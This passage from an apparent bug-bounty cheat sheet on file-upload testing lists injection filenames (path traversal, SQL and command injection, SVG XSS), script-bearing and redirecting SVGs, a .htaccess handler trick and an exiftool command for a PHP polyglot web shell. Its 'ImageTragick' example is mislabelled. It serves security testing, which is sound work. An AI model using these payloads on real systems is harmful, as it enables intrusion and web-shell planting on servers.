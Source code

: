 
#### **5. File Name Exploitation**
- **Path Traversal**:  
  - Example: `../../etc/passwd/logo.png`, `../../../logo.png`  
- **SQL Injection**:  
  - Example: `sleep(10).jpg`, `sleep(10)-- -.jpg`  
- **Command Injection**:  
  - Example: `; sleep 10;`  
- **XSS**:  
  - Example: `<svg onload=alert(document.domain)>.svg`  

---

#### **6. Other Test Cases**
- **ImageTragick (SVG)**:  
  - Exploit SSRF or RCE via SVG file upload.  
  - Example:  
    ```xml
    <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
      <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
      <script type="text/javascript">alert("XSS");</script>
    </svg>
    ```
- **Open Redirect via SVG**:  
  ```xml
  <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
  <svg onload="window.location='http://www.google.com'" xmlns="http://www.w3.org/2000/svg"></svg>
  ```

---

#### **7. Advanced Techniques**
- **Web Shell via `.htaccess`**:  
  - Upload `.htaccess` with:  
    ```plaintext
    AddType application/x-httpd-php .l33t
    ```  
  - Then upload a file with `.l33t` extension containing PHP code.  

- **Polyglot Web Shell**:  
  - Use `exiftool` to inject PHP code into an image:  
    ```bash
    exiftool -Comment="<?php echo 'START ' . 'Hacked By h0tak88r :)' . ' END'; ?>" download.png -o polyglot.php
    ```  

- **EXIF Data Not Stripped**:  
  - Upload images with EXIF data and check if it’s preserved.  
  - Use tools like [exif.regex.info](http://exif.regex.info/exif.cgi) to verify.  

---

#### **8. Top HackerOne Reports**
- **Remote Code Execution**:  
  - Example: Logo upload on `www.semrush.com/my_reports` (792 upvotes).  
- **Web Shell via File Upload**:  
  - Example: `ecjobs.starbucks.com.cn` (673 upvotes).  
- **Blind XSS**:  
  - Example: Image upload on CS Money (412 upvotes, $1000).  
- **Unrestricted File Upload**:  
  - Example: `ambassador.mail.ru` (404 upvotes, $3000).  
- **SSRF via File Upload**:  
  - Example: Video upload on TikTok (139 upvotes, $2727).  

---